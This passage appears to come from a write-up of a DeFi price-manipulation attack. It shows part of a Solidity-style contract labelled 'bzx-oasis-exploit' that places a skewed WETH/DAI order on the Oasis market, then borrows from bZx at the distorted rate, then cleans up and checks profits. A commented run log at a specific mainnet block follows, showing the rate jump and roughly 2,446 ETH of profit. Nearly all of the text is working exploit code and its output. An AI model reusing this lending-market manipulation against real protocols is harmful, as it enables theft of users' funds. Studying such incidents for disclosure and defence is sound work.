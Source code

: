 ```
        id = MATCHING_MARKET.offer(ethOfferAmount, WETH, daiBidAmount, DAI);
        printf("made order id=%u\n", abi.encode(id));
        
        require(MATCHING_MARKET.insert(id, 0));
    }
    
    function borrow() external {
        bytes32 hash = doBorrow(BZX_ETH, false, BZX_ETH.marketLiquidity(), WETH, DAI);
        printf("borrowing loanHash=%32x\n", abi.encode(hash));
    }
    
    function cleanup() external {
        require(MATCHING_MARKET.cancel(id));
        DAI.giveAllToUniswap();
        WETH.withdrawAll();
    }
    
    function checkProfits() external {
        printf("profits=%.18u\n", abi.encode(address(this).balance - INITIAL_BALANCE));
    }
    
    function borrowInterest(uint amount) internal {
        WETH.deposit.value(amount)();
    }
    
    function borrowCollateral(uint amount) internal {
        DAI.getFromUniswap(amount);
    }
}

/*
### running script "bzx-oasis-exploit" at block 8455720
#### executing step: exploit
##### calling: checkRates()
checking rates tokens=1.000000000000000000 rate=0.005950387240736517 slippage=0.005771875623514421
##### calling: makeOrder()
made order id=414191
##### calling: checkRates()
checking rates tokens=1.000000000000000000 rate=9.975000000000000000 slippage=9.675750000000000000
##### calling: borrow()
collateral_required=398.831304885561111810, interest_required=203.458599916962956188
borrowing loanHash=0x947839881794b73d61a0a27ecdbe8213f543bdd4f4a578eedb5e1be57221109c
##### calling: cleanup()
##### calling: checkProfits()
profits=2446.376892708285686012
#### finished executing step: exploit
*/
```

##### Solution
